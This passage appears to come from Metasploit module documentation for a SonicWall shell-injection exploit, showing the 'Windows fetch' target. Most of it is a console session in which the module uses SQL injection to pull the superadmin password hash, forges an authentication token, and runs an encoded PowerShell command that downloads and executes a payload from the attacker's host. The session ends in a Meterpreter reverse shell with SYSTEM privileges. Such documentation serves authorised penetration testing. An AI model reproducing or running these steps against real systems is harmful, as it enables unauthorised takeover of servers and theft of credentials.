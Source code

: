 ### Windows fetch

This is the best Windows target, and will work against installations on Windows
that have the `curl.exe` utility. It fetches and executes a payload using
encoded Powershell commands, granting `SYSTEM` access:

```
msf6 > use exploit/multi/http/sonicwall_shell_injection_cve_2023_34124
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set TARGET 1
TARGET => 1
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set LHOST 10.0.0.227
LHOST => 10.0.0.227
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set RHOST 10.0.0.79
RHOST => 10.0.0.79
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set FETCH_SRVHOST 10.0.0.227
FETCH_SRVHOST => 10.0.0.227
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/sonicwall_shell_injection_cve_2023_34124) > exploit

[*] Command to run on remote host: curl -so hQwPyfWWi.exe http://10.0.0.227:8080/jmQsj96o2bA9WhizsOs40Q & start /B hQwPyfWWi.exe
[*] Fetch Handler listening on 10.0.0.227:8080
[*] HTTP server started
[*] Adding resource /jmQsj96o2bA9WhizsOs40Q
[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] Attempting to use SQL injection to grab the password hash for the superadmin user...
[*] Generated SQL injection: ' union select (select ID from SGMSDB.DOMAINS limit 1), '', '', '', '', '', (select concat(id, ':', password) from sgmsdb.users where active = '1' order by issuperadmin desc limit 1 offset 0),'', '', '
[*] Generated a token using built-in secret key: /J50ZtvLJddOf5FI4nYdMJcX8IQ=
[*] Sending SQL injection request to get the username/hash...
[.] Found an account: admin:5f4dcc3b5aa765d61d8327deb882cf99
[*] Grabbing server hashing token...
[*] Got the server-side token: 33936314922891192454547809769777
[*] Generated client token: e3a16584fcc8a8238c707300d8400917
[*] Attempting to authenticate with the client token + password hash...
[+] Successfully logged in as admin (Windows detected!)
[*] Encoding (Windows) command: curl -so hQwPyfWWi.exe http://10.0.0.227:8080/jmQsj96o2bA9WhizsOs40Q & start /B hQwPyfWWi.exe
[*] Running shell command: powershell IEX ([System.Text.Encoding]::UTF8.GetString([byte[]]@(99,109,100,46,101,120,101,32,47,99,32,99,117,114,108,32,45,115,111,32,104,81,119,80,121,102,87,87,105,46,101,120,101,32,104,116,116,112,58,47,47,49,48,46,48,46,48,46,50,50,55,58,56,48,56,48,47,106,109,81,115,106,57,54,111,50,98,65,57,87,104,105,122,115,79,115,52,48,81,32,34,38,34,32,115,116,97,114,116,32,47,66,32,104,81,119,80,121,102,87,87,105,46,101,120,101)))
[*] Client 10.0.0.79 requested /jmQsj96o2bA9WhizsOs40Q
[*] Sending payload to 10.0.0.79 (curl/7.83.1)
[+] Payload sent!
[*] Sending stage (200774 bytes) to 10.0.0.79
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.79:52692) at 2023-08-18 14:04:08 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

